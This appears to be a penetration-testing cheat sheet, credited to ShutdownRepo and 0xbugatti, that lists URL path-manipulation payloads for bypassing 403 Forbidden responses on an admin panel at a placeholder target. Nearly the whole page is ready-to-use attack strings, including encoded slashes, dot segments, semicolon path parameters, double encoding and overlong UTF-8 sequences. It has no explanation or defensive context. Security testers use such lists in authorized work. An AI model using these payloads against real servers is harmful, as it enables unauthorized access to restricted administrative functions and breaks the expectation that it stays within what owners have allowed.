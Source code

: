 ```yaml
---
authors: ShutdownRepo, 0xbugatti
---
```

# 403 Error Bypass 
### [`http://target.com/v3/AdminPanel`](http://target.com/v3/AdminPanel) -:> [403]

# Path Manipulation

### Add Before The Path Tricks
**``/v3/%2f/AdminPanel

`/v3/%2e%2f/AdminPanel`

`/v3/%252f/AdminPanel`

`/v3/%5c/AdminPanel`

`/v3/%C0%AF/AdminPanel`

`/v3/..;/AdminPanel`

`/v3/.//AdminPanel`

`/v3///AdminPanel`

`/v3//AdminPanel`

`/v3/#/../AdminPanel`

`/v3;X=Y/AdminPanel`

`/v3../AdminPanel`

`/v3/%2e%2e/AdminPanel/ `

`/v3/%2e/AdminPanel/ `

`/v3/..3B/AdminPanel/ `

`/v3/;AdminPanel/`

`/v3/200-OK/..//AdminPanel/ `

`/v3/200-OK /%2e%2e/AdminPanel/`

`**

### Add After The Path Tricks


`/v3/AdminPanel/`

`/AdminPanel/.`
